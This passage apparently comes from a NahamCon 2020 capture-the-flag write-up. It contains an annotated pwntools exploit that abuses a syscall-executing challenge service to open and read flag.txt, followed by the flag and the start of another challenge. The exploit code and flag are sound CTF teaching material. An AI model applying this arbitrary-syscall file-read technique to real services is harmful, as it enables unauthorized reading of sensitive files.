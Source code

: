 The following annotated exploit code has more details.

```python
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50016)
else:
	r = process("./saas")

def syscall(rax, rdi, rsi, rdx, r10, r9, r8, ret=False):
	r.sendlineafter("): ", str(rax))
	r.sendlineafter(": ", str(rdi))
	r.sendlineafter(": ", str(rsi))
	r.sendlineafter(": ", str(rdx))
	r.sendlineafter(": ", str(r10))
	r.sendlineafter(": ", str(r9))
	r.sendlineafter(": ", str(r8))
	if ret:
		r.recvuntil("Rax: ")
		return int(r.recvline().rstrip(), 16)

pause()

# mmap 0xbeef000 for reading/writing data
syscall(9,0xbeef000,0x1000,7,0x22,0,-1)
# read from STDIN(fd=0) to read filename into our buffer
syscall(0,0,0xbeef000,0x1000,0,0,0)
# send filename, taken from script arguments ("flag.txt" was the flag filename)
sleep(0.1)
r.send(sys.argv[-1]+"\x00")
# fd = open(filename)
fd = syscall(2,0xbeef000,0,0,0,0,0, True)
# le = read(fd, ...), reading from flag file to buffer at 0xbeef000
le = syscall(0,fd,0xbeef000,0x1000,0,0,0, True)
# write(STDOUT, 0xbeef000, ...) to write flag contents to STDOUT(fd=1)
syscall(1,1,0xbeef000,le,0,0,0)

# get flag!
r.interactive()
```

`flag{rax_rdi_rsi_radical_dude}`

[saas]:/ctf/nahamcon20/SaaS/saas
[saas-exploit]:/ctf/nahamcon20/SaaS/exploit.py



# Shifts Ahoy
> I created super advanced encryption software for us to communicate securely.
>
> Connect with:
>
> nc jh2i.com 50015 (Solves: 72, 100 pts)
>
> [shifts-ahoy](shifts) [exploit.py](shifts-exploit)
